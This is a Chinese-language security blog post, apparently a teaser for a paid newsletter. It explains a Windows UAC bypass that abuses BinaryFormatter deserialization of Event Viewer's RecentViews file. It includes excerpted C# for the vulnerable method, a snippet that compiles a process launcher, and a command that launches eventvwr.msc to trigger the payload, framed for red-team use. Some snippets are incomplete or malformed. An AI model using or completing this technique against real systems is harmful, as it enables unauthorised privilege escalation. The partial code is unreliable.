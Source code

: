 #  .NET内网实战：通过白名单文件反序列化漏洞绕过UAC   
原创 专攻.NET安全的  dotNet安全矩阵   2024-10-25 08:31  
  
01  
  
阅读须知  
  
此文所节选自小报童《.NET 内网实战攻防》专栏，主要  
内容有.NET在各个内网渗透阶段与Windows系统交互的方式和技巧，对内网和后渗透感兴趣的朋友们可以订阅该电子报刊，解锁更多的报刊内容。  
  
  
  
02  
  
基本介绍  
  
本文内容部分节选自小  
报童《.NET 通过白名单文件反序列化漏洞绕过UAC》，  
完整的  
文章内容请加入小报童后订阅查看。  
现在限时  
只需59元，永久买断  
！  
目前已有220+位朋友抢先预定，我们会长期更新，对.NET内网安全的朋友们请尽快订阅该报刊！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibfaNSN6v42mLFJjHPiaXKEK3srX5wUr2ggC1hnpwjCXH767T6mtib5EBSotlEuYEOwLqBbtI3TjU2g/640?wx_fmt=png&from=appmsg "")  
  
03  
  
原理分析  
  
在渗透测试和红队活动中，权限提升是重要的一环，尤其是在没有管理员权限的情况下执行更高权限的操作。有一种思路利用 Windows 事件查看器 eventvwr.msc 的高权限加载特性和 XAML 反序列化机制，以绕过 UAC 限制。  
## 3.1 Windows事件查看器  
  
在 Windows 系统中，事件查看器Event Viewer是一个非常有用的管理工具，可以帮助系统管理员和安全分析人员查看系统日志、应用程序日志、安全日志等。  
通常情况位于当前系统用户下的AppData\Local\Microsoft\Event Viewer目录。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibfaNSN6v42mLFJjHPiaXKEKNMnEj9PzdGkpkXQ9g5liaO4QvSNebYrexyIfgbyibpM5QAbJLfvTspEQ/640?wx_fmt=other&from=appmsg "")  
  
在事件查看器启动过程中，Windows 会自动加载 EventViewer.dll，这是事件查看器的核心 .NET 组件之一，提供事件记录的读取、解析和显示功能，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibfaNSN6v42mLFJjHPiaXKEK7jQgJvyR8GDxAuwyibmIdaiam4uHct5QlDDAZZX9xq4kjGmd5YRHEwcw/640?wx_fmt=other&from=appmsg "")  
  
  
由于 EventViewer.dll内部调用了LoadMostRecentViewsDataFromFile方法，此方法调用BinaryFormatter().Deserialize方法反序列化读取最近的事件记录内容，核心漏洞代码如下所示。  
  
```
private void LoadMostRecentViewsDataFromFile(){   try	{	if (!string.IsNullOrEmpty(EventsNode.recentViewsFile) && File.Exists(EventsNode.recentViewsFile))		{		FileStream fileStream = new FileStream(EventsNode.recentViewsFile, FileMode.Open);		object syncRoot = EventsNode.recentViewsDataArrayList.SyncRoot;		lock (syncRoot)		{		EventsNode.recentViewsDataArrayList = (ArrayList)new BinaryFormatter().Deserialize(fileStream);		}		fileStream.Close();	}}catch (FileNotFoundException){}}
```  
  
## 3.2 动态编译启动新进程  
  
首先代码中定义了一个名为 CreateSerializedData 的静态方法，方法内部的 text 字符串包含一段完整的.NET代码，用于创建一个控制台程序，内部使用了 DllImport 引入 Windows API 函数 CreateProcess，用于在桌面上创建一个新进程。  
  
```
string text = "\r\nusing System;\r\nusing System.Runtime.InteropServices;\r\n\r\n\r\nclass HelloWorld\r\n{\r\n    [DllImport(\"kernel32.dll\")]\r\n    private static extern bool CreateProcess(\r\n     int dwCreationFlags,\r\n     IntPtr lpEnvironment,\r\n ref STARTUPINFO lpStartupInfo,\r\n     ref PROCESS_INFORMATION lpProcessInformation);\r\n\r\n    [StructLayout(LayoutKind.Sequential)]\r\n    struct STARTUPINFO\r\n    {\r\n        public Int32 cb;\r\n        public string lpReserved;\r\n        public string lpDesktop;\r\n        public string lpTitle;\r\n        public Int32 dwX;\r\n        public Int32 dwY;\r\n        public Int32 dwXSize;\r\n        public Int32 dwYSize;\r\n        public Int32 dwXCountChars;\r\n        public Int32 dwYCountChars;\r\n        public Int32 dwFillAttribute;\r\n        public Int32 dwFlags;\r\n        public Int16 wShowWindow;\r\n        public Int16 cbReserved2;\r\n        public IntPtr lpReserved2;\r\n        public IntPtr hStdInput;\r\n        public IntPtr hStdOutput;\r\n        public IntPtr hStdError;\r\n    }\r\n\r\n  internal struct PROCESS_INFORMATION\r\n    {\r\n        public IntPtr hProcess;\r\n        public IntPtr hThread;\r\n        public int dwProcessId;\r\n        public int dwThreadId;\r\n    }\r\n    \r\n\r\n    static void Main(string[] args)\r\n    {\r\n        string DesktopName=args[0];\r\n        string argumentsAsString = string.Join(\" \", args, 1, args.Length - 1);\r\n        STARTUPINFO si = new STARTUPINFO();\r\n        si.cb = Marshal.SizeOf(si);\r\n        si.lpDesktop = DesktopName;\r\n        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();\r\n        bool success = CreateProcess(\r\n            null,\r\n            argumentsAsString,\r\n            IntPtr.Zero,\r\n            IntPtr.Zero,\r\n            false,\r\n            48,\r\n            IntPtr.Zero,\r\n            null,\r\n            ref si,\r\n            ref pi);\r\n    }\r\n}\r\n";Console.ForegroundColor = ConsoleColor.Yellow;Console.WriteLine("Compling StartInSelectedDesktop...");compilerParameters.GenerateExecutable = true;compilerParameters.OutputAssembly = Path.Combine(Path.GetTempPath(), "StartInSelectedDesktop.exe");
```  
  
## 3.3 白加黑启动绕过UAC  
  
利用 eventvwr.msc 进程来触发恶意载荷的反序列化，从而绕过用户账户控制 (UAC) 限制启动新的 cmd 进程。因为此时恶意负载已经写入到 C:\Users\Ivan1ee\AppData\Local\Microsoft\Event Viewer\RecentViews，自动化打开事件查看器即可触发漏洞。具体代码如下所示  
  
```
if (!Program.CreateProcess(null, "cmd /c start \"\" \"%windir%\\system32\\eventvwr.msc\"", IntPtr.Zero, IntPtr.Zero, false, 48, IntPtr.Zero, null, ref structure, ref process_INFORMATION))
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibfaNSN6v42mLFJjHPiaXKEKL4OrCbJqzsBEy0fjs8ca7FIG2ibdn4xL7ggGOOTbJHXnhO4KYXLibFDQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibfaNSN6v42mLFJjHPiaXKEKGRjfHviaicMHnI93lacx7Hzqx8IAg7nvyHib8SueUMTm4HXN9GTOkAKmQ/640?wx_fmt=png&from=appmsg "")  
  
综上，  
  
利用了Windows事件查看器的反序列化漏洞，具备强大的UAC绕过能力。在红队渗透测试中，其高度隐蔽性和无文件特性而受到广泛应用。  
  
想要了解完整或者更多的  
内网安全防御绕过方向的文章，可以移步订阅  
小报童《.NET 内网实战攻防  
》电子报刊。  
  
04  
  
**欢迎加入.NET 电子报刊**  
  
我们的小报童电子报刊【.NET内网安全攻防】也开始运营，引入小报童也是为了弥补知识星球对于轻量级阅读支持的不足，为用户读者提供更佳的阅读体验。  
如果您对阅读体验的需求比较高，那么可以订阅这个专栏  
。  
  
  
  
  
本  
次电子报刊《.NET 内网安全攻防》专栏，内容主要有.NET在各个内网渗透阶段与Windows系  
统交互的方式和技巧，可细分为以下8个方向。  
  
```
1） .NET 安全防御绕过
2） .NET 本地权限提升
3） .NET 内网信息收集
4） .NET 内网代理通道
5） .NET 内网横向移动
6） .NET 目标权限维持
7） .NET 数据传输外发
8） .NET 目标痕迹清理
```  
  
  
原价899，现在限时  
只需59元，永久买断  
！  
目前已有200+位朋友抢先预定，我们会长期更新，初步计划保持每周更新1-2篇新内容，对.NET内网安全的朋友们请尽快订阅该报刊！![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibeicvDNVldcXTgRnFUFTwOqfTleogJThU7kCaZJuuU2BLVLYluu6CFV7BX458AxBcd93ickZ0rmOqQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
每增加五十人涨价10元，抓紧订阅，超值！  
订阅后请关注公众号：  
dotNet安全矩阵，发送订单截图和您的微信号，邀请您加入专属交流群。感兴趣的朋友，可以点击链接：https://xiaobot.net/p/dotNetAttack，或者  
扫描下方海报微信二维码加入即可  
，  
订阅后小报童定时会将最新内容通过微信推送给您。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibTRic7PgrT4472YFHDrrOLlcTgKtwgm9cngTJDUib6AO9siaC7WXl6f8Jk1QZbYcib76QcIOBTicMDRhQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
